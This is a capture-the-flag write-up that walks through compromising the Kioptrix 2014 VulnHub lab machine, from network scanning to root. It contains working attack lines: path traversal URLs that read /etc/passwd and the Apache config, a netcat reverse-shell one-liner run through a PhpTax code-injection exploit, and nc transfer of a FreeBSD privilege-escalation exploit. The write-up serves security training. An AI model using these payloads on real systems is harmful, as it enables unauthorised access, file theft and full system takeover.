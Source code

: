 # Kioptrix: 2014 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-2014-5,62/ "URL for the virtual machine").

## Information Gathering

Using the `ifconfig` command, we have determined that our attacking machine's IP address is 192.168.56.103. We can then use the command `nmap -sn 192.168.56.0/24` to scan the local subnet to find what the victim's IP address is.

![](images/ping.png "Using nmap -sn 192.168.56.0/24 to find the IP address of our victim")

From these found IP addresses, we can narrow down our victim's IP address by seeing that only two addresses are identified as VirtualBox machines, and that knowing the address 192.168.56.100 is used by VirtualBox as its DHCP server, meaning that our victim is at address 192.168.56.104.

## Scanning

Running the command `nmap -A 192.168.56.104` will tell us the services running and their versions on all ports on the victim.

![](images/nmap.png "nmap -A 192.168.56.104 will scan across all ports")

As we can see that there is an http service running on port 80 and 8080, we can get more information about it with the `nikto` utility. Running `nikto -h 192.168.56.104` will pull information about the web service on port 80, and we can see that there is a possible vulnerability that we can exploit.

![](images/nikto1.png "Getting information about the web server with nikto")

The same vulnerability exists when we try `nikto -h 192.168.56.104 -p 8080`.

![](images/nikto2.png "Getting more information about the web server with nikto")

## Gaining Access

While the vulnerability mentioned by nikto looks promising, unfortunately, we need to know the operating system version for the [associated exploit](https://www.exploit-db.com/exploits/764/ "Exploit for the associated vulnerability") to work. Since nmap told us the victim is running FreeBSD but not the version, we're out of luck on that front. As an aside, the exploit has some problems with compiling and the necessary instructions to fix them are located [here](https://www.hypn.za.net/blog/2017/08/27/compiling-exploit-764-c-in-2017/ "Instructions for fixing the compilation errors in the exploit")

Instead, we'll navigate to each of the two web services in a web browser to see if we can find anything interesting. The web service on port 8080 gives us a 403 Forbidden error, so this won't be of much use to us at this stage.

![](images/8080.png "Going to http://192.168.56.104:8080 in Firefox")

The other web service results in a simple message that "It works!"

![](images/80.png "Going to http://192.168.56.104:80 in Firefox")

Hmmm, not much here either. If we view the source for this page, it'll show us that there's a page located at pChart2.1.3/index.php that we can go to.

![](images/source.png "HTML code for the page at http://192.168.56.104")

Going to the indicated web page presents a site that renders charts and graphs for us.

![](images/pchart.png "The resulting web page")

After doing some research on pChart 2.1.3, it appears that there are [multiple exploits](https://www.exploit-db.com/exploits/31173/ "Link to Exploit DB for pChart 2.1.3") for this version, one of which is a path traversal attack. As an example, going to the site http://192.168.56.104/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd will display the contents of the /etc/passwd file.

![](images/passwd.png "The contents of the /etc/passwd file")

Armed with the knowledge that [Apache 2.2 on FreeBSD](https://www.freebsd.org/doc/handbook/network-apache.html "Link to the Apache documentation for FreeBSD") keeps the configuration file at /usr/local/etc/apache22/httpd.conf, I used the path traversal attack to display the contents by browsing to http://192.168.56.104/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf.

![](images/httpd.png "The contents of the httpd.conf file")

At the very bottom of the configuration file, there was a section about the web service on port 8080 that we couldn't get to before. It's set up so that the requester's user-agent string has to be Mozilla/4.0 to get access to the page there.

![](images/conf.png "The user-agent limiter in the httpd.conf file")

Firing up Burp Suite and sending a request to the web service on port 8080 will result in the 403 Forbidden error we've seen before.

![](images/burp.png "The 403 error in Burp")

Changing the User-Agent field to Mozilla/4.0 will result in us getting access to the web page.

![](images/mozilla4.png "Changing the user agent to get access to the web page")

The HTML code in the response includes an `a href` tag with a link to a phptax directory. Changing the GET request to go to that directory shows us that it hosts an instance of the PhpTax program.

![](images/phptax.png "The response given by navigating to the phptax directory")

This program has a remote code injection vulnerability in the pfilez parameter as evidenced by the [Exploit Database](https://www.exploit-db.com/exploits/21665/ "An exploit for the PhpTax program"). There's also a [Metasploit module](https://www.rapid7.com/db/modules/exploit/multi/http/phptax_exec "Link to the Metasploit module") for this vulnerability too. However, I decided to write up my own exploit in Python partly to have more familiarity with exploit development and also because we need a specific user-agent to get access to the vulnerability.

![](images/python.png "My PhpTax exploit")

[This exploit](exploit.py "The code for my PhpTax exploit") will use the remote code execution vulnerability to run the command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.103 4444 >/tmp/f`, which will make a named pipe used to create a reverse shell with netcat that will connect back to our attacking machine on port 4444. The code for the reverse shell comes from [this resource](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "Reverse shell cheat sheet"). If we first run `nc -lvp 4444` in a terminal, we'll set up a listener on port 4444 ready to catch our reverse shell. Then, we run our exploit in a different terminal, and we'll get a shell on the victim's machine.

![](images/shell.png "Using the exploit to get a reverse shell")

## Elevating Access

Before we can escalate our privileges on the victim's machine, we need to gather information about the system so that we can find an attack vector. A useful resource for knowing where to look can be found [here](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ "Basic Linux privilege escalation"). Specifically, with the `uname -a` command, I found that the target was running FreeBSD 9.0 as an operating system.

![](images/freebsd.png "The victim's operating system")

Back on our attacking machine, we can run the command `searchsploit FreeBSD 9` to find exploits for the specific version that we're targeting.

![](images/exploit.png "Exploits for FreeBSD 9")

It looks like there's a few exploits for this version, but I'm going to use [26368](https://www.exploit-db.com/raw/26368/ "Local privilege escalation for FreeBSD 9.0"), which takes advantage of a vulnerability in the mmap implementation to gain root access. However, we must first get the exploit onto the victim's machine, and because the victim doesn't have `curl` or `wget`, we'll use `nc` to do so. We'll first copy the exploit into our attacker's home directory with `searchsploit -m 26368`. Then, on our attacker's machine we'll run `nc -lvp 1234 < 26368.c`, which will set up a listener on port 1234 that will send the contents of 26368.c to whoever connects. Back on our victim, we'll run `nc 192.168.56.103 1234 > exploit.c`, which will connect to our attacker, grab the contents of the file, and store it locally as exploit.c.

![](images/nc.png "Using nc to transfer files")

Now, we compile the exploit on the victim machine with `gcc -o exploit exploit.c`, run with `./exploit`, and we are now root!

![](images/root.png "Getting root")

We can then read the flag with `cat /root/congrats.txt`, and we have beaten this challenge!

![](images/flag.png "The challenge's flag")

